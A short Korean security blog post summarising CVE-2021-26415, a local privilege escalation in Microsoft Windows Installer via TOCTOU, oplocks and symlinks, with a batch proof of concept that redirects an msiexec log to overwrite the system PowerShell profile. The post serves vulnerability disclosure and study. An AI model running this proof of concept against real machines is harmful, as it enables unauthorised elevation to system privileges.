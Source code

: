 ```yaml
---
title: "[하루한줄] CVE-2021-26415: Microsoft Installer Local Privilege Escalation"
author: idioth
tags: [idioth, cve, microsoft, msi, lpe, toctou]
categories: [1day1line]
date: 2021-05-03 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[CVE-2021-26415](https://www.cloaked.pl/2021/04/cve-2021-26415/)



## Target

- Microsoft Windows Installer



## Explain

Microsoft Windows Installer(MSI)에서 TOCTOU와 symlink를 통한 Local Privilege Escalation 취약점이 발견되었습니다. `msiexec`는 기본적으로 관리자 권한을 필요로 하지만 repair operation 수행을 위해 `/f` 옵션을 사용하면 권한이 없이 사용할 수 있습니다. `/L` 옵션과 함께 사용하면 로그 파일을 지정된 곳에 생성할 수 있습니다.

```
msiexec /f C:\Windows\Installer\148d3c4.msi /L C:\temp\foo.log
```

symlink를 통해 `foo.log`가 첫 CreatFile에서 시스템 권한으로 impersnation 될 때 oplock을 설치하면 다음 쓰기/읽기 작업은 심볼릭 링크된 파일에서 수행됩니다. PowerShell을 Overwrite하여 LPE를 하는 POC는 다음과 같습니다.

```
@echo off
REM Put BaitAndSwitch, example.msi into C:\temp
echo > C:\temp\fakelog.txt
start C:\temp\BaitAndSwitch C:\temp\linkdir\link C:\temp\fakelog.txt C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1
timeout /t 1
msiexec /j C:\temp\example.msi /t ksz /Li! C:\temp\linkdir\link /qn
```

